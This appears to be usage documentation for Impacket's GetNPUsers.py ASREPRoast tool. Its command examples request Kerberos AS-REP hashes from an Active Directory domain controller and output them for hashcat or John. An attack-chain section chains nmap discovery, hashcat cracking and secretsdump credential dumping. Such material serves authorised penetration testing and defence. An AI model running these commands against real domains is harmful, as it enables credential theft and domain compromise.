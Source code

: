 ## Usage Examples

### Basic ASREPRoast Attack
```bash
# Check for ASREPRoastable users without authentication
python3 GetNPUsers.py domain.com/ -dc-ip 192.168.1.10

# Request hashes for specific user
python3 GetNPUsers.py domain.com/testuser -dc-ip 192.168.1.10 -request

# Request hashes and save to file
python3 GetNPUsers.py domain.com/ -dc-ip 192.168.1.10 -request -outputfile asrep_hashes.txt
```

### Using Username Lists
```bash
# Check usernames from file
python3 GetNPUsers.py domain.com/ -usersfile users.txt -dc-ip 192.168.1.10 -request

# Format output for hashcat
python3 GetNPUsers.py domain.com/ -usersfile users.txt -dc-ip 192.168.1.10 -request -format hashcat
```

### Authenticated Enumeration
```bash
# Use valid credentials to enumerate all ASREPRoastable users
python3 GetNPUsers.py domain.com/user:password -dc-ip 192.168.1.10 -request

# Use NTLM hash authentication
python3 GetNPUsers.py domain.com/user -hashes :ntlmhash -dc-ip 192.168.1.10 -request

# Use Kerberos authentication
python3 GetNPUsers.py domain.com/user -k -dc-ip 192.168.1.10 -request
```

### Advanced Usage
```bash
# Output in John the Ripper format
python3 GetNPUsers.py domain.com/ -dc-ip 192.168.1.10 -request -format john -outputfile john_hashes.txt

# Enable debug mode for troubleshooting
python3 GetNPUsers.py domain.com/ -dc-ip 192.168.1.10 -request -debug
```

## Attack Chain Integration

### Initial Domain Enumeration
```bash
# Step 1: Discover domain controllers
nmap -p 88 192.168.1.0/24

# Step 2: Enumerate ASREPRoastable users
python3 GetNPUsers.py domain.com/ -dc-ip 192.168.1.10 -request -outputfile asrep.hash

# Step 3: Crack obtained hashes
hashcat -m 18200 asrep.hash wordlists/rockyou.txt

# Step 4: Use cracked credentials for further attacks
python3 secretsdump.py domain.com/cracked_user:password@dc.domain.com
```
